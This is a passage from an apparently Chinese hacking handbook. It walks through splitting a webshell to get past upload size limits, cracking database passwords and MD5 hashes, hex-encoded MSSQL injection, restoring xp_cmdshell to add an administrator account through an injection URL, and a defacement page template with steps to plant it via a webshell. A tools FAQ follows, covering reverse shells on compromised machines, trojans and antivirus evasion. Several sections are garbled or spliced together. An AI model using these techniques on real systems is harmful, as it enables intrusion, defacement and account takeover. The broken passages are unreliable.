- (2) 看似天衣无缝的设置，即便内部 WEB 页面存在漏洞，而外网的用户访问不了也是危险的。这种配置容易忽视一个问题：网络数据包中的代理请求和 HTTP 请求是不同的。

为什么会出现这样的结果呢？因为代理服务器是一个双向系统，具有内部接口`10.0.0.1`和外部网络接口`252.1.1.3`。当外部访问者试图访问`252.1.1.3:80`、`252.1.1.3:8001`时都会提示禁止访问，这是因为该服务器被配置成拒绝响应`10.0.0.x`和`127.0.0.1`以外的任何 IP 地址连接，然而对于任何 IP 地址都允许接收 HTTP 代理请求事实却忽略了。因此，当外部访问者发送 HTTP 代理请求`http://127.0.0.1`到`252.1.1.3`的80端口时，该代理服务器通过了请求，并与运行在80端口上的 WEB 服务建立了连接。如图44 所示，看看黑客最后达到目的拓扑图。


## 11 为什么在 Windows XP 下上传失败？

在本章第 4 节《为什么我通过小马上传文件总是失败？》中，分析了“曾经能上传的小马，但现在不能上传”这种问题发生的可能性，主要是管理员限制了目录写权限。我们可以随便输入一段不是木马的字符，如“`hello!`”来测试这些目录，直到找到能写的目录为止。

这一节将会引出一个新的问题。如上所说，我们通过一段无关代码进行目录写权限的测试，发现`images`目录有写权限，于是上传木马，但返回出错信息，上传失败，如图45、图46 所示。


相信很多朋友对这个原因会迷惑解，明明目录是能写的，木马却写不进去。这里告诉“切割后的小文件名”处设置保存路径及文件名，最后在工具上点右键选择“进行切割”。这时在设置的路径下一百多 K 的木马生成了`hy.001-hy.006`六个文件，如图50、图51 所示。


现在这几个文件不能被那个 ASP 程序识别，我们要修改一下编号，把前面的 00 去掉并以 1 来表示。如`hy.001`改`hy.1`、`hy.002`改`hy.2`，以此类推。


把改好的分块文件用 ASP 合并上传到服务器，在 IE 中访问程序出现对话框，按照要求分别输入文件名`hy.1`、最后一个文件名`hy.6`和`hy.asp`，然后提交，如图53 所示。


成功生成`hy.asp`，这样就绕过了 IIS 文件大小的问题，如图54 所示。


这种方法光用来上传 ASP、EXE 等格式的文件被限制上传也可以用同样的办法绕过。感兴趣的资料时，打开发现是这样的结果，如图55 所示。


用记事本打开数据库源码，在一堆乱码中凭眼找到密码的位置实在是渺茫，如图56 所示。


不用太灰，不过数据库进行了加密，并且不是 MD5 加密。也就是说，管理员取个变态口令让我们无法破解出来的机会都没有，只要拿到数据库就能得到明密码。随便使用一款破解工具打开数据库，选择“破解密码”，即可得到明文，如图57 所示。


图57 中的密码是`admin888`，打开数据库时输入这个密码成功进入，如图58 所示。


可能有朋友问，是怎么给 Access 数据库加密码的？其实只要有 Office 办公套件中的 Access2003 很容易设置。先打开，选择“文件”－“打开”，选择要加密码的`MDB`文件后不要急着点“打开”，而是要点击一下“打开”按钮右边的小箭头，选择“以独占方式打开”，如图59 所示。

然后点击“工具”－“安全”－“设置数据库密码”，如图60 所示，在弹出的对话框中输入密码。以后打开这个`MDB`数据库就得密码了。


使用这个加了密码的数据库文件，能提高网站的安全性。我们可以进一步修改数据库连接，只需将连接字符串改为：`microsoft.jet.oledb.4.0;data source=e:\dweb\nohack\database\member.mdb;persist security info=false;Jet OLEDB:Database Password=123456`，也就是在连接字符串中加上密码即可。

## 13 得出管理员密码后却是加密的！该怎么得到未加密的明文？

通过注入得到的密码是加密的，现在应该不算什么新鲜事了，因为现在大部分程序都将密码进行了加密，其中使用得最多的是 MD5 加密，如图61 所示。


通过标准 MD5 加密后的密码是由小写字母和数字组成，共 16 位，另外一种 MD5 的加密是 32 位的，也是小写字母和数字组成，这是一种 MD5 的复合加密。如图62 所示，`nohack58`能转换成 32 位和 16 位两种形式的 MD5 密码散列。


反之，如果我们注入得到了 32 位的一串密码，不要以为不是 MD5 加密。还有一种特殊的情况，有的整站程序会把 MD5 加密后的散列中的小写字母转换成大写字母，比如动易。遇到这种情况时，要先把大写字母转换成小写字母后再进行破解，破解 MD5。

时返回正常页面，and 1-2 时则返回出错页面，说明存在注入漏洞，如图 67 所示。


现在我们面对的情况是找到了 MSSQL 注入点，但是过滤了单引号。本来想先通过`<>`得到第一个表名，但是这种方法是行不通的，因为过滤了单引号，使得语句无法正常执行。这种过滤了单引号的防注入是最常采用的，也是最便于理解的。它是采用建立一个函数，然后把语句转换为 16 进制编码作为参数赋给这个函数，最后再执行函数的方法，过程中就不会出现引号中的代码。

```sql
select count(*) from master.dbo.sysdatabases where name>1

select top 1 name from xxxxxxx.dbo.sysobjects where xtype='U'
```

1. 设一个函数`S`

2. 转换要执行的 SQL 语句为 16 进制

3. 把转换的结果作为参数赋给`S`

4. 执行`S`函数，实际上就是执行了被转换的 SQL 语句

明白了原理我们就来看看具体怎么操作。转换的过程中一般工具就能方便准确的做到，这款工具就是“SQL 注入学习小工具”，如图 68 所示。


```sql
(5002000600072006F006D00620006E006F006F006F006B006F0063006E006300620064006F0062007E006F0062007E0063007900790065006F00650062006A0065006A00630074007300650065006E00630063006F00630061006D0063006E0063002700550062002700...)
EXEC(@S);
```


提交后成功暴出了表名，如图 71 所示，依此方法每次将 SQL注入语句转换后再提交，就可以绕过单引号继续正常注入了。使用的语句与正常注入无异，就是多个用工具转换的步骤而已。


在某网站发现一个 MSSQL 注入点，经过检测后为 SA 权限，如图 72 所示。尽管理论上来讲，我们能执行任何系统命令来入侵这台服务器，并且节点是 MSSQL 数据库严重错误模式，也就是说，当执行`0=(数据库查询语句)`这种嵌套查询的语句时，能在页面上显示报错结果，轻松获取信息。


遇到`SA`权限的标准入侵流程是先试试能不能用扩展存储过程`XP_cmdshell`来执行系统命令，如果能执行，建管理员账号后开 3389 远程桌面就可以了。在节点上执行命令，如果成功会返回正常页面，如果不成功，会返回出错页面。

我们来进行实际操作，在注入点输入建账号命令，看看能否成功，语句如下：

```http
http://www.xxx.com/list.id=1433; exec master.dbo.xp_cmdshell 'net user nohack 12345678 /add'
```

结果出现了如图 73 所示的报错页面，说明执行命令不成功。


`SA`权限下执行`XP_cmdshell`命令失败，最大的可能是该存储过程被删除了。删除分两种，我将其分别称为“软删除”和“硬删除”。

先说说硬删除，`XP_cmdshell`的执行必须依赖`%systemroot%\Program Files\Microsoft SQL Server\MSSQL\Binn`下的`xplog70.dll`文件，如图 74 所示。


如果该程序被删除了，那肯定无法`XP_cmdshell`了，除非你能通过途径上传`xplog70.dll`文件。

软删除则是删掉`xplog70.dll`文件，只是使用`sp_extendedproc 'xp_cmdshell'`注销了扩展存储过程，这种情况我们可以再恢复过来。提交语句`http://www.xxx.com/list?id=1433; exec sp_extendedproc xp_cmdshell`，返回了正常页面，说明语句被执行，如图 75 所示。


我们确认一下`XP_cmdshell`是否被恢复了，输入语句：

```sql
id=1433 select count(*) from master.dbo.sysobjects where xtype='X' and name='xp_cmdshell'
```

再次提交并开始调用`xp_cmdshell`执行账号的语句：`http://www.xxx.com/list?id=1433; exec master.dbo.xp_cmdshell 'net user nohack 12345678 /add'`。这时返回正常页面，说明能执行命令，现在就可以顺利进行入侵。

有很多学习黑技术的读者在入侵成功别人的网站后，喜欢修改对方的首页，挂上黑页标明该站被黑了，炫耀一下。笔者并不这么做，但是对于学习后取得成果，有点冲动，也足理解那种心情。同时，黑页挂上也是展示给大众的最直观方式，这一节告诉大家如何制作黑页并挂在网站上。

看以下一段黑页代码，以此模板给大家：


```html
<html>
<head>
<meta-equiv="Content-Type" content="text/html; charset=gb23">
<meta name="generator" content="http://www.nohack.com">
<meta name="keywords" content="">
<title>黑页演示</title>
<base target="_top">
</head>
<body>
<script language="javascript">
<!--
function killErrors() {
    return true;
}
window.onerror = killErrors;
// --></script>
<BGSOUND=0 src="http://www.nohack.com/mid/topic.mid" volume=0 loop=20>
<META-equiv="Content-Type" content="text/html; charset=gb23">
<SCRIPT language=javascript>
<!--
function is() {
    var agent = navigator.userAgent.toLowerCase();
    var major = parseFloat(navigator.appVersion);
    var minor = parseFloat(navigator.appVersion);
    var ns = ((agent.indexOf('mozilla') != -1) &&
        ((agent.indexOf('spofer') != -1) ||
        (agent.indexOf('compatible') == -1)));
    var ns2 = (ns && (major == 2));
    var ns3 = (ns && (major == 3));
    var ns4 = (ns && (major >= 4));
    var ie = (agent.indexOf('msie') != -1);
    var ie3 = (ie && (major == 2));
    var ie4 = (ie && (major >= 4));
    var op3 = (agent.indexOf('opera') != -1);
}

var is = new is();
if(is.ns4) {
    doc = "document";
    sty = "";
    htm = ".document"
} else if(is.ie4) {
    doc = "document.all";
    sty = ".style";
    htm = ""
}

var text1 = "", text2 = "", count = 0, count2=0;
msg = new Array();

msg[0] = "<font face=tahoma size=2><center>人世间原本没有天才，天才形成的原因只是一个过程！..........";
msg[1] = "..........这其中过程的过程只是自己最大的努力..........";
msg[2] = "..........或许有一天自己的理想破灭了..........";
msg[3] = "..........我依然快乐着，因为我尽了自己最大的努力..........";
msg[4] = "..........你的网站存在重大的..........";
msg[5] = "..........安全漏洞..........";
msg[6] = "..........请尽快修补..........";
msg[7] = "..........首页文件已帮您备份..........";
msg[8] = "..........删除黑页修改备份名..........";
msg[9] = "..........网站即恢复正常..........";
msg[10] = "..........友好检测..........";
msg[11] = "..........n o h a c k..........";
msg[12] = "..........追求真正的HACK精神..........";
msg[13] = "..........By  n 0 h 4 k 3..........";
text = msg[0].split("");

function writetext(){
    text1 ='<tt>+text2 + ' <b style="color: #00FF00">'+text[count]+'</center></tt>';
    text2 += text[count];
    fillHTML = eval(doc + '["nothing"]' + htm);
    if(is.ns4) {
        fillHTML.write(text1);
        fillHTML.close();
    } else {
        fillHTML.innerHTML = text1;
    }

    if (! (count >= text.length-1)){
        count+=1;
        setTimeout("writetext()",1);
    }
    else{
        count=0;
        text2+='<p>';
        if (count2!=13){
            count2++
            text = eval('msg['+count2+'].split("")');
            setTimeout("writetext()",1);
        }
    }
}
```

（3）自己想说的话，写给管理员或是表达自己的一种情绪，如图78所示。


这些内容可在源代码中找到，只要进行修改，把引号中的话换成自己想说的内容就行了。

（4）视觉特效和背景音乐。我们肯定希望自己的黑页很酷很炫，那加上效果是必不可少的，如图79所示，背景中的数字符号会像雨点一样从上往下降，而我们要说的那些话，也是逐行显示的，使画面看起来颇有动感。


在代码中`<BGSOUND balance=0 src="http://www.nohack.com/mid/topic.mid" volume=0 loop=20></TR>`这段语句中，mid 文件是黑页的背景音乐，我们可以将其换成别的，只需替换一下 url 即可。

在使用时还需要把代码中`<title>黑页演示</title>`写成我们自己的内容，这里是页面标题，就是 IE 浏览器左上方所显示的内容，如图80所示。

黑页修改好了，我们去 WEBSHELL 挂上。登录 WEBSHELL 后先在网站的根目录下找到首页文件，一般文件名是`index.htm`、`index.asp`、`default.htm`、`default.asp`等，如图81所示。

在替换首页挂黑页之前先将它原来的首页备份一下，使管理员能够恢复，我们对网站不应该做恶意的破坏。点击 WEBSHELL 中的“编辑”，把`index.htm`改为`index.htm_bak`，如图82所示。

然后新建一个文件，命名为`index.htm`，把我们改好的黑页代码内容复制粘贴进去，然后保存，如图83所示。再次访问这个网站的地址时，如`http://www.xxx.com`，发现进入的是我们的黑页，并配有背景音乐，目标达成，如图84所示。

# 第21章 入侵过程常见问题


希望这个黑页中的几段话能鼓励大家努力的学习，去追求更高深的技术，做一个真正的黑客。最后希望大家明白，当你连上黑页时，你就是在触犯法律！


- 1. 黑客常用的有哪些工具，能推荐几种吗？
- 2. 怎样看到我QQ好友的IP地址甚至是具体位置呢？
- 3. 我使用端口扫描器扫描了很多IP段，为什么一个端口都没有扫到？
- 4. 我在外网中，为什么鸽子也不能上线？
- 5. 怎么在我的ADSL路由器里设置端口映射？
- 6. 怎么样给软件脱壳或加壳？
- 7. 如何使用溢出工具包metasploit？
- 8. 如何安装虚拟机软件？
- 9. 在修改木马防杀操作中如何定位特征码？
- 10. 怎么把木马和其它程序捆绑？
- 11. 如何进行跳转修改法防杀？
- 12. 如何使用X-Scan扫描器？
- 13. 怎么让没有代理功能的软件也能使用代理？
- 14. 如何用“代理超人”扫描代理？
- 15. 如何使用radmin？
- 16. 如何使用啊D自动攻击器？
- 17. 我不会使用PCSHARE，能教教我吗？
- 18. 如何使用FXP方便的管理自己的WEB空间？
- 19. 怎么使用端口转发工具LCX？
- 20. 如何使用键盘记录器？
- 21. 如何使用C/S木马？
- 22. 网络瑞士军刀NC的多种使用方法

## 1 黑客常用的有哪些工具，能推荐几种吗？

长期从事网络安全检测必然有几样顺手的工具，虽然不一定要多，但一定要精。根据平时个人的经验，我将自己的常用工具及简单用法奉献如下：

### (1) NC (NET CAT)

NC号称网络瑞士军刀，其功能强大，应用广泛，几乎所有黑客工具箱必然收录这款工具。NC的主要功能有监听、连接、提交数据等，比如你想测试本地主机是否在外网，最有效的测试方式莫过于使用`nc -vv -l -p 12345`命令监听本地的12345端口，如图1所示。

```
D:\hacksofe\nc>nc -vv -l -p 12345
listening on [any] 12345 ...
```

图1

然后再打开一个NC，用命令`nc -vv 你的外网IP 12345`连接，如果能连接上，自然就是外网，连接不上就是内网。如图2、图3所示，分别是连接端和监听端上的提示信息。

```
D:\hacksofe\nc>nc -vv ██.███.195.14 12345
fly-d02d27d466a [██.███.195.14] 12345 <?> open
```

图2 主动连接方的提示

```
D:\hacksofe\nc>nc -vv -l -p 12345
listening on [any] 12345 ...
connect to [██.███.195.14] fly-d02d27d466a 2508
```

图3 监听端的提示

## 第六章 黑客工具实战

这个操作演示了 NC 的普通用法——监听和连接。如果你是在肉鸡上执行监听，在没有防火墙下，可以直接连接上肉鸡；如果你是在本地监听，在肉鸡上运行，就会收到一个肉鸡上反弹的SHELL。

对于这些命令的使用，相信了抓包的朋友都很熟悉。NC 的奇妙在于原本很简单的功能，却能在复杂的环境下创造出无穷可能。NC还有很多精妙的运用，在本章后面的内容会有详细介绍。

### (2) Superscan

端口扫描工具是黑客工具箱中必备的一类工具，Superscan 是扫描器中的老牌产品，稳定性好，功能强大，特别准确性是这个工具最重要的素质。Superscan 是一款基于图形模式工作的工具，使用很简单，输入 IP 后选择要端口，点“开始”即可，如图4所示。要注意的是尽量选择 TCP，因为 SYN 扫描会被防火墙当成异常而被屏蔽，造成结果不。


### (3) 以 NBSI 为代表的 SQL注入工具

玩过 SQL注入的朋友可能不知道 NBSI 的名字，它的确是目前为止功能最强最成熟的 SQL注入工具。正常的操作是在“扫描”下的“地址”中填入要扫描地址，点击“开始”，在“扫描结果”中列出扫描过的链接和可能性，如图5所示。


可能性为“极高”，则肯定有注入。点击“分析”，很多SQL注入工具没有的注入功能，开始猜测壳里得到恶意进程，如果是 MSSQL 则可以尝试读取目录获取路径。

### (4) 远程控制，即木马类

这类工具主要有灰鸽、PCSHARE 等木马，以及黑客之门、WOL 等一些后门，它们的使用方法在网上都有详细描述。


这类工具的首要条件不是功能多样、界面花哨，而是隐蔽性和安全性，所以很多黑客都有自己的工具。

### (5) WSockExpert

这是一款抓包工具，它的用途很大，你可以用它抓取网站上的连接地址。常见的入侵手法中，在抓包、修改、上传这个流程中也是离不开的工具。操作方法是点击左上方的“打开文件”按钮，选中要抓包的程序，比如 IE，如图7所示。


第一、IE 在打开了多个窗口时，要选择标题包含你要抓包的 IE 左上方标题相同的；

第二、抓包的 IE浏览器一定要选择开新窗口浏览网页的，而不能腾讯等那种在同一程序中打开N个窗口的浏览器，这样是无法抓到数据包的。

选定后，切换到 IE界面，点击“提交”或者刷新 IE，这时 WSockExpert就会显示出刚才提交和接收的数据包信息。我们需要的数据，然后从下面窗口复制出相关内容，如图8所示。

### (6) 文件内容编辑类工具，如 WinHex 和 Edit32

## 第八章 黑客工具实战

### (7) 嗅探工具类

现在嗅探在入侵中越来越广泛的使用，工具层出不穷。嗅探类的工具主要有混合模式的普通嗅探和 ARP欺骗类的嗅探，这里推荐`sniffer.exe`和`ARPSpoof`，如图10所示。


### (8) 漏洞利用和溢出提权等工具

漏洞利用工具，如常见的 Velvet 提权工具等，如图11所示，能使我们很快的入侵网站，节约大量的时间。提权工具一般人是很难得到的，能否接触到内部未公开的漏洞利用工具，是一个黑客技术层次的标志之一。

以上几种工具是个人认为必备的，其它工具还有很多，但是都可能有替代的方法。以上几类工具并非一定要推荐的几款，大家可以依据自己的爱好选择称手的伙伴。

```
D:\>sniffer.exe
====================================
RawSniffer V1.2
Powered by shadow 02004/11/28
my web:http://www.codehome.6600.org
Has bugs please mail to:dreamshadow@mail
====================================
Usage:
-si 源ip    -di 目的ip        *代表所有,多项用,号分割
-sp 源端口   -dp 端口       *代表所有
-w 嗅探方式,1代表单向嗅探
-si->di 0代表双向嗅探
-p 协议[TCP,UDP,ICMP]大写
-m 最大记录，以M为单位
-o 十进制输出
-echo 回显
-filter 过滤字节数据包-low 粗略嗅探,丢包率低
timeout 超时,网络状况差否则随便调
-sniffs smtp
```

## 2 怎样看到我QQ好友的IP地址甚至是具体位置呢？

有的朋友用QQ上网和聊天时常常遇见这样的情况：突然问道：“你是在湖南？”正好对了！）甚至说出：“你是不是沈阳？”不知底细的人吓一跳，还以为对方是哪路神仙。其实可能是对方有外挂程序，通过它能看到你的IP，然后通过IP了解到你使用的这台电脑的所在。IP地址的知识大家都了解过，这里再补充下IP的分配和电话号码、身份证号码一样，是有规律的，就可以分辨IP地址所在地。而网等公共场所，它向专线IP是不会变的，当这些地点上网时，会得到其他更为详细的地址。取得了IP地址，就可以从数据库中看到其所属地区，如图12所示。

| 起始IP | 结束IP | 地址 |
| --- | --- | --- |
| 218.65.0.194 | 218.65.0.194 | 江西九江市 太平洋吧 |
| 218.65.0.195 | 218.65.0.198 | 江西九市电信 |
| 218.65.0.199 | 218.65.0.200 | 江西九市雨哲吧 |
| 218.65.0.201 | 218.65.0.217 | 江西九市电信 |
| 218.65.0.218 | 218.65.0.218 | 江西九市 传奇吧 |
| 218.65.0.219 | 218.65.0.219 | 江西九市 龙腾吧(九江) |
| 218.65.0.220 | 218.65.0.220 | 江西九市电信 |


| 起始 IP | 结束 IP | 位置 |
|---|---|---|
| 218.65.0.221 | 218.65.0.221 | 江西九市 聚友吧 |
| 218.65.0.222 | 218.65.0.233 | 江西九市电信 |
| 218.65.0.234 | 218.65.0.234 | 江西九市 九江学院对面 |
| 218.65.0.235 | 218.65.0.235 | 江西九市 九江学院象牙 |
| 218.65.0.236 | 218.65.0.238 | 江西九市电信 |
| 218.65.0.239 | 218.65.0.239 | 江西九市 紫水晶吧 |

这类QQ外挂的工作原理，就是通过分析时传递的数据包得出对方IP，然后将IP地址与本地的IP数据库去对应，如果在IP数据库内，则显示出对应的位置；如果不在IP地址库内，则显示“无法获取位置”。如果你也想拥有这个显IP的功能，可以下载显示IP地址的QQ外挂。我们在http://www.google.com 的搜索框中输入 QQ显IP2008，然后进行搜索就可以找到相关信息，如图13所示。


图13

下载完毕后开始安装，与普通的QQ并没有什么区别，安装完成后，按默认设置即可，如图14所示。


图14

再次登录你的QQ号，打开与好友聊天的对话窗口，在界面右上区域原来显示FLASH广告的位置，现在已经显示IP及地理位置，如图15所示。


图15

显示格式通常如下所示：

```
某市某区某网吧
IP：221.125.251.15:4000
```

在四段位IP后面的4000是该QQ与外界联系使用的端口，这个有什么用呢？不要小看它，它能传达的信息不少哦，它可以帮助我们识别对方是不是用代理上的QQ，如果是直接QQ上线而没有通过代理，这个端口号通常应该是4000或4001。如果不是这个端口，而且地址又莫名其妙，比如是显示在国外，可以推测对方是用的代理IP上网。

当然，有时网吧也是使用的网吧主机代理上网，这时的端口也可能不是4000和4001，如图16所示，注意具体情况具体分析。4000和4001端口还能进一步分析出两个结果：如果是使用4001端口上线

3. 我使用端口扫描器扫描了很多IP段，为什么一个端口都没有扫到？

4. 我在外网中，为什么鸽子也不能上线？

5. 怎么在我的ADSL路由器里设置端口映射？

6. 怎么样给软件脱壳或加壳？

7. 如何使用溢出工具包metasploit？

8. 如何安装虚拟机软件？

9. 在修改木马防杀操作中如何定位特征码？

10. 怎么把木马和其它程序捆绑？

11. 如何进行跳转修改法防杀？

12. 如何使用X-Scan扫描器？

13. 怎么让没有代理功能的软件也能使用代理？

14. 如何用“代理超人”扫描代理？

15. 如何使用radmin？

16. 如何使用啊D自动攻击器？

17. 我不会使用PCSHARE，能教教我吗？

18. 如何使用FXP方便的管理自己的WEB空间？

19. 怎么使用端口转发工具LCX？

20. 如何使用键盘记录器？

21. 如何使用C/S木马？

22. 网络瑞士军刀`NC`的多种使用方法

扫描的结果是该主机没有开放80端口，这明显是不可能的，如图23所示。


我们再扫描一次，这次使用“直接连接”扫描模式，如图24所示。


现在扫到了TCP80端口开放，如图25所示。


第四、扫描时注意扫描的端口类型，如果扫描的是UDP类型的端口，设置成TCP类型是是不能扫到的。

第五、一次扫描的IP段不能过多，有的朋友一次扫描就跨越了数十个C段，甚至是B段、A段，这样扫描已经远远超过了工具所能承受的最大范围，一般会提示出错，不执行扫描操作。虽然有的工具会执行扫描，但是实际上不会返回任何结果。

如图26所示，被圈中的位置表示是扫描255个B段，这样扫描就算在肉鸡上跑N天，到的结果也很难保证准确，因为它已经超过了工具的正常负荷范围了。


# 第八章 黑客工具实战技巧

第六、扫描工具已经被损坏，这一点可以采用如下方法分析扫描不到结果的原因。

测试1：扫描 127.0.0.1，如果有返回结果，说明扫描器没有问题，可以正常使用，如图27所示。


测试2：扫描 www.163.com，如果能扫描到开放端口，说明网络正常；如果没能扫描到，请检查网络等情况，如图28所示。


## 4 我在外网中，为什么路由器还能上网？

在分析这个问题之前，有必要对这个问题的前提进行判断，你真的是处于外网吗？很多人对于内网和外网的区分仅仅是在 `CMD` 下输入 `IPCONFIG -ALL` 命令查看自己的 IP 地址是否为外网，如图 29 所示。

```text
Connection-specific DNS Suffix  . :
Description . . . . . . . . . . . : WAN (PPP/SLIP) Interface
Physical Address. . . . . . . . . . . : 00-53-45-00-00-00
Dhcp Enabled. . . . . . . . . . . : No
IP Address. . . . . . . . . . . . : 116.???-199.35
Subnet Mask . . . . . . . . . . . : 255.255.255.255
Default Gateway . . . . . . . . . . . : 116.???-199.35
DNS Servers . . . . . . . . . . . : 202.103.44.150
                                  202.103.24.68
NetBIOS over Tcpip. . . . . . . . . : Disabled
```

看到 IP 地址那一行中自己的 IP 为外网 IP，就确认自己是在外网。其实这是不正确的，当你的路由器是使用路由模式而非桥接模式时（路由器的桥接模式请参考第二章《常见问题答疑解惑》中的相关内容），即使你的 IP 地址是外网，你实际上仍在内网中。

至今我也没看到哪篇技术文章上说过能用 `IPCONFIG -ALL` 的命令查看自己的 IP 地址是否处于内网。因为凭感觉和印象进行判断自己是否在内网的方法是没有依据的，不科学的。更有甚者，仅仅只是因为自己是 ADSL 用户就认为自己是处于外网，这更是没有依据的判断方法。

对于自己是否处于内网外网的判断，比较权威的测试方法还推荐 `NC` 连接测试法。用 `NC` 工具在本机监听，命令为 `NC -VV -L -P 1234`，如图 30 所示。

```text
D:\hacksofe\nc>nc -vv -l -p 1234
listening on [any] 1234 ...
```

然后再开另一个 `CMD` 窗口执行 `NC`，命令为 `NC -VV 你的外网 IP 地址 1234`，如图 31 所示。接上，说明你是在外网，如果不能连接上，则是在内网，如图 31 所示，为连接失败。

```text
D:\hacksofe\nc>nc -vv 116.???-199.35 1234
connection failed
sent 0, rcvd 0
D:\hacksofe\nc>
```

确认自己在外网后仍不能上网，我们从技术和非技术方面来分析。究竟非技术方面可能导致上网。有的朋友在测试时，是把路由器和网络结合起来，也就是说把路由器做成了网马，然后通过网马来测试。这中间涉及到网马的可靠性，现在成为一种效率强的工具。基于系统漏洞而产生的网马，在系统漏洞打上补丁后就会失效。


很多初学者想试验网马后清除，于是常常开着防火墙的情况下测试；还有朋友运行的路由器是经过免杀工具修改过的，这样版本的服务端不能确保其可靠性，你的路由器无法的原因可能就是因为这个修改后的版本。不要觉得莫名其妙，这是因为路由器没有解析exe后缀名。

路由器配置正常了。下面谈谈从路由器配置造成的常见原因：

- 格式错误（例如在“服务器配置”－“自动设置”这一栏中需要填入你的IP地址、域名或IP地址，如图34所示）。
- 格式错误（例如在IP前加上HTTP://，如HTTP://www.nohack.com、192.168.0.1）。
- 分清自己到底是通过IP、域名映射到本地IP，还是直接连接IP。有的朋友会明白为什么加了HTTP://就会无法。
- 采用域名方式，它就会去解析域名。`PING` 命令大家已经掌握了，你可以试着执行一下 `PING http://www.sohu.com`，看看是否通，如图35所示。

```text
C:\hacksoft\nc>ping http://www.sohu.com
Ping request could not find host http://www.sohu.com. Try again.
```


同样的，对IP进行连接时，IP作为一个参数。如果在IP前加了HTTP://，你可以试试能否`TELNET`。这样解释大家就明白为何格式错误会导致无法了吧？有的朋友在这里把域名和空间搞混，不是因为没搞清楚格式，而是在分不清自己申请的到底是空间还是域名。这是概念没有搞清楚，我教给大家一个判断自己申请的到底是空间还是域名的方法。你申请完成后，会得到一个网络地址，如 test.nohack.com。你用FTP连接这个地址，命令为 test.nohack.com，如果能登录并提示有密码，说明是空间；如果没有连接成功，说明只是域名。如图36所示。

```text
C:\hacksoft\nc>ftp test.nohack.com
Connected to test.nohack.com.
220 Microsoft FTP Service
User (...):
```


如果没有连接成功，说明真是域名。原理是，空间具有存储功能，可以进行FTP上传下载，因此能连接；而域名本身只相当于门牌号码，并没有连接到空间，所以无法连接。只要我们将以上原因逐一排除，鸽子就应该上线了。

在介绍ADSL的设置方法之前有一点说明，ADSL的品牌很多，有的系统还是英文的，所以在设置上会有差别。ADSL设置先要进入ADSL的IP地址，然后浏览，会弹出一个登录框，提示输入用户名和密码，如图37所示。


ADSL的账号和密码在ADSL路由的说明书上可以找到，正确输入后即可进入设置界面。这里有个小问题，ADSL路由的IP地址如何得到？在“开始”→“运行”中输入`CMD`，在`CMD`模式下输入`ipconfig -all`，在返回的结果中会有如图38所示的信息。

```text
Ethernet adapter Local Area Connection:

Connection-specific DNS Suffix . :
Description . . . . . . . . . . . : NVIDIA nForce Net
Physical Address. . . . . . . . . . . : 00-11-09-D6-C5-E0
Dhcp Enabled. . . . . . . . . . . : No
IP Address. . . . . . . . . . . . : 192.168.1.2
Subnet Mask . . . . . . . . . . . . : 255.255.255.0
Default Gateway . . . . . . . . . . . : 192.168.1.1
DNS Servers . . . . . . . . . . . : 202.103.0.1
                                  202.103.44.5
```

Default Gateway（网关）之后的IP地址就是ADSL路由器的IP地址，例如图38中这台路由器的IP就是192.168.1.1，用这个IP登录路由器路由器如图39所示。


登录路由器后，界面分左右窗口，左侧的是选项，右边是当前的内容。左侧通常会有“WAN设置”、“LAN设置”、“NAT设置”、“虚拟服务器”、“DNS设置”、“保存设置”等项。路由器品牌不同，菜单项目的文字可能不同，如图40所示。


服务器映射通常是在“虚拟服务器”这一项中（有一部分ADSL路由器把功能整合到了“NAT设置”中），而笔者这款路由器是把映射单独列在一个“IP过滤器”中，如图41所示。点击该项后，会看到：“公共端口”、“私有端口”、“端口类型”、“主机IP”。公共端口中填需要打开的端口，比如填21，如图42所示。私有端口中填本机映射出去的端口，这里填21，端口类型选择TCP，主机IP前面前面用`ipconfig -all`命令得到的IP地址，此处为192.168.1.2，如图43所示。


这样就等于本机的21端口通过路由器对外开放了。注意：映射完成后点击左侧项目“保存设置”，重启路由器即可，如图44所示。现在外部主机可以直接通过21端口连接到本机了，如图45所示。此前端口未开放，外界连接21端口时相当于对路由器21端口发出请求，这是连接不上的。

```text
C:\hacksoft\nc>nc -vv 116.???-199.35 21
connection refused (ftp)
```

## 怎么搞垮软件脱壳？

对于一些复杂的壳，只能通过汇编方法进行壳，属于解密技术之一。突破一个相当难度的壳，其难度就是在技术领域一项关键，初学者是很难掌握并做到的，因此本节只对常用工具对文件进行加壳和脱壳的方法讲解。

一个程序加壳能起到这些作用：

1. 保护版权，防止破解；

2. 把程序压缩，体积变小；

3. 防止查杀。

常见的加壳工具有ASPACK、UPX、PECompact等，加壳的操作比较直接，分为图形界面和命令行界面两种。图形界面比较简单，以ASPack为例，运行后选择加壳的文件，点击“确定”后即加壳成功，如图46所示。命令行加壳工具在使用时需将欲加壳或脱壳的文件放到命令行工具同一目录。这些以UPX脱壳工具为例，先在命令行下输入 `UPX/?` 查看帮助，其列出的内容如下：

```text
-t 测试压缩文件 -V 显示版本号
-h 更多帮助 -L 显示软件授权

UPX选项中文解释：

-q 安静方式 -v 冗长
-oFILE 写入输出到文件
-f 强制压缩可疑文件
-k 保留备份文件
```

假设需要脱壳的程序名称为`hacker.exe`，将其和UPX脱壳工具放在同一目录后，`CMD`命令行下切换进入该目录，输入命令`upx -l -k hacker.exe`即可将`hacker.exe`加壳成功。另外，UPX也有图形界面的工具，如图47所示。


脱壳比加壳多一步工序：程序已经被加壳，在脱壳之前就要先弄清它是加的什么壳，以便“对症下药”，用专门的工具对其脱壳。查找程序是用什么加的壳也有专门的工具，如`PEid`、`FileInfo`、`PE_Scan`、`Stud_PE`等等，这里以`PEID`查壳工具为例。运行该工具后在界面右上角有一按钮，点击后选中需要查壳的程序，在最下方的长条形显示框中会显示如`ASPack 2.x`字样。

## 第六章 黑客工具实战技巧

们选择第四项，这段英文描述的大意是监听连接，并且建立一个用户将其添加到管理员组。


图52


图53


图54

进入下一步，是填入溢出的参数。`RHOST` 表示要攻击的主机 IP 地址；`RPORT` 表示要攻击的端口，大部分 IIS 都是运行于 80 端口的；`LPORT` 是本地打开的端口；`PASS` 是溢出建立的账号指派密码；`USER` 则是建立的账号名，注意标记 `Required` 的选项是必须填写的，其他项可任意选填，如图55所示。一切填妥后，点击下面的按钮提交溢出代码，很快工具返回溢出的结果，如图56所示。


图57中的提示是 `Exploit failed`，即溢出失败。如果是溢出成功的提示，我们就可以尝试用刚才的账号和密码登录那台 IIS4.0 的主机了。


图55


图56

第二项`Auxiliary`的意思相当于一些常见的功能性检测，例如连接某些端口、空口令连接、`IPC`等。和前一项溢出功能一样，仍然是搜索杂结合项目列表的形式。我们对`SQL`相关的功能感兴趣，输入`SQL`进行搜索，结果如图57所示。

